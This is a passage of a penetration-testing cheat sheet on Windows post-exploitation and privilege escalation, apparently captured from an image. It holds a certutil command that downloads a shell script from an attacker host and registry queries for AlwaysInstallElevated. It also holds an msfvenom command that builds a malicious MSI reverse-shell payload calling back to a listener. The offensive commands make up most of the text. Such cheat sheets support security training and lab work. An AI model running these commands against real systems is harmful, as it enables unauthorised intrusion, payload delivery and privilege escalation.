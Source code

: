         # restore backups using their ID
        restic.exe -r E:\restic2\ restore 9971e881 --target C:\Restore
        ```

* Miscellaneous Techniques:

    * [LOLBAS (Living Off the Land Binaries and Scripts)](https://lolbas-project.github.io):

        ```ps
        # LOLBAS project lists Windows binaries and scripts of use for attackers

        # transferring files with certutil
        certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
        ```

        ```cmd
        # encoding file with certutil
        certutil -encode file1 encodedfile

        # decoding file
        certutil -decode encodedfile file2

        # binaries like rundll32.exe can be used to execute a DLL file
        ```
    
    * Always Install Elevated:

        ```ps
        # enumerate AlwaysInstallElevated settings
        reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
        reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
        ```

        ```sh
        # exploit this by generating a malicious MSI package and execute it
        # on attacker
        msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

        # setup a python server to transfer the machine
        # and setup a netcat listener to catch the revshell
        ```
